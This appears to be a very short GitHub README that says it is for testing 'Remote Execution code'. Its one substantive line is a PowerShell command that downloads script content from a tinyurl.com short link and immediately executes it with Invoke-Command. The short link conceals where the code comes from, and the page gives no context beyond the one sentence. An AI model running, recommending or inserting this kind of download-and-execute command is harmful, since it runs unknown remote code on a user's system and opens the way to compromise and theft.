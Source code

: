 # So

This is to test Remote Execution code Example line : 
```
powershell -Command "Invoke-Command -ScriptBlock ([ScriptBlock]::Create((Invoke-WebRequest -Uri 'https://tinyurl.com/yrf7ck5z' -UseBasicParsing).Content))"
```
